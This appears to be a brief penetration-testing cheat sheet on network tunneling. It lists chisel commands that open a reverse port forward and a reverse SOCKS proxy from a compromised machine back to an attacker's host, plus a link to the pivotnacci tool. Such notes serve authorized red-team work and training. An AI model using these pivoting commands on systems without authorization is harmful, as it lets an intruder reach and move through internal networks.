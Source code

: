 ```yaml
---
layout: post
title: "Tunneling"
os: ["Windows", "Linux"]
tags: ["Port Forwarding", "SOCKS", "Tunneling"]
section: "Tunneling"
---
```


# Port Forwarding
  
Start chisel on atack machine

```bash
./chisel server --reverse -p "listen port"
```


# Start communication between Attach machine and Compromise Machine
```bash
./chisel client "attacker IP":"attacker Port" R:"local port":"IP to expose":"Port to expose"
```

# SOCKS

Start chisel on atack machine

```bash
./chisel server --socks5 --reverse [-p "PORT"]
```

# Start communication between Attach machine and Compromise Machine

```bash
./chisel client "attacker IP":"port" R:socks
```
# pivotnacci

[https://github.com/blackarrowsec/pivotnacci](https://github.com/blackarrowsec/pivotnacci)

